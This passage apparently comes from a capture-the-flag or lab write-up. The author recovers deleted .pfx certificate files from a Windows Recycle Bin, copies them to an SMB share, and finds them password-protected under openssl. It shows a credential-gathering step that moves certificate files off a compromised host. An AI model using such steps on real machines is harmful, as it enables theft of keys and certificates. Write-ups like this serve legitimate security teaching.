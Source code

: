 
Files in the recycle bin are stored with names starting with `$R`, and
associated metadata starting with `$I`. So `$IZIX7VV.pfx` is the metadata for
`$RZIX7VV.pfx`, and for some reason, `$RLYS3KF.pfx` is missing metadata.

The metadata file is a binary format, but I can see the string of the former
file name:

    
    
    c:\$Recycle.Bin\S-1-5-21-3783586571-2109290616-3725730865-2663>type $IZIX7VV.pfx
    ўp#C:\Users\GinaWild\Desktop\cert.pfx
    

That’s definitely interesting.

### Access Certificate

#### Download

I’ll copy all three files into the SMB share:

    
    
    c:\$Recycle.Bin\S-1-5-21-3783586571-2109290616-3725730865-2663>copy * \share\
    $IZIX7VV.pfx
    $RLYS3KF.pfx
    $RZIX7VV.pfx
            3 file(s) copied
    

I’ll download the files over SMB and delete them from the share to clean up
after myself.

All three files are just `data`:

    
    
    oxdf@hacky$ file \$IZIX7VV.pfx 
    $IZIX7VV.pfx: data
    oxdf@hacky$ file \$RLYS3KF.pfx 
    $RLYS3KF.pfx: data
    oxdf@hacky$ file \$RZIX7VV.pfx 
    $RZIX7VV.pfx: data
    

Still, knowing the file name, if I try to get information about the
certificate from `openssl` for either `.pfx` file, it asks for a password:

    
    
    oxdf@hacky$ openssl pkcs12 -info -in \$RZIX7VV.pfx -noout
    Enter Import Password:
    MAC: sha1, Iteration 2000
    MAC length: 20, salt length: 20
    Mac verify error: invalid password?
    oxdf@hacky$ openssl pkcs12 -info -in \$RLYS3KF.pfx -noout
    Enter Import Password:
    MAC: sha1, Iteration 2048
    MAC length: 20, salt length: 8
    Mac verify error: invalid password?
    